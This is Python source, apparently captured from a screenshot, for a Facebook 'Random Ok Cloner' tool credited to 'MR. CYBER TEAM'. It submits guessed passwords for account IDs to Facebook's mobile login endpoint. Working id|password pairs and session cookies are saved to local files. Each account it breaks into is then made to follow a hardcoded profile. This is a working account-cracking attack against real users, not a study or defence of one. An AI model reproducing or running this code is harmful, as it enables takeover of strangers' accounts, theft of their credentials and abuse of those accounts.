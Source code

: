 			ses.headers.update({"Host":'mbasic.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":'https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr',"accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				rint( f'\r\x1b[1;92m [MR.-OK] {idf} | {pw}')
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				coki=po.cookies.get_dict()
				coki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r\x1b[1;92m [MR.-OK ] {idf} | {pw}')
				wrt =('%s - %s' % (idf,pw))
				ok.append(wrt)
				open('/sdcard/Snigdho.txt','a').write('%s\n' % wrt)
				follow(ses,coki)
				break
 
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
def follow(ses,coki):
	ses.headers.update({"accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
	r = sop(ses.get('https://mbasic.facebook.com/profile.php?id=100012856183015', cookies={'cookie': coki}).text, 'html.parser')
	get = r.find('a', string='Follow').get('href')
	ses.get(('https://mbasic.facebook.com' + str(get)), cookies={'cookie': coki}).text
 
logo = """
\033[0;95m=============WELCOME MR. CYBER TEAM========================
\033[1;94m~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
\033[0;92m                                                                         
  __  __ _____     _______     ______  ______ _____    _______ ______          __  __ 
 |  \/  |  __ \   / ____\ \   / /  _ \|  ____|  __ \  |__   __|  ____|   /\   |  \/  |
 | \  / | |__) | | |     \ \_/ /| |_) | |__  | |__) |    | |  | |__     /  \  | \  / |
 | |\/| |  _  /  | |      \   / |  _ <|  __| |  _  /     | |  |  __|   / /\ \ | |\/| |
 | |  | | | \ \  | |____   | |  | |_) | |____| | \ \     | |  | |____ / ____ \| |  | |
 |_|  |_|_|  \_\  \_____|  |_|  |____/|______|_|  \_\    |_|  |______/_/    \_\_|  |_|                                                                                                                                                                                                                                                                                                                                                                                                                                            
\033[1;91m\033[0;  KING OF MR.
\033[0;95m═══════════════════════════════════════════
\033[0;94m [!]\033[0;91mTOOL OWER : \033[0;92mMR. AMINUL
\033[0;94m [!]\033[0;91mGITHUB : \033[0;92m....
\033[0;94m [!]\033[0;91mFacebook : \033[0;92mMR. AMINUL
\033[0;94m [!]\033[0;91mFacebook Group : \033[0;92mMR. CYBER TEAM
\033[0;94m [!]\033[0;91mYoutube : \033[0;92mMR. CYBER TEAM
\033[0;94m [!]\033[0;91mWhatsApp : \033[0;92m01879594529
\033[0;94m [!]\033[0;91mTOOL NAME : \033[0;92m Random Ok Cloner
\033[0;94m [!]\033[0;91mVERSION   : \033[0;92m3.0.7
\033[0;94m [!]\033[0;94m𝐁𝐑𝐎 DO You Know 🤟
\033[0;95m═══════════════════════════════════════════"""
 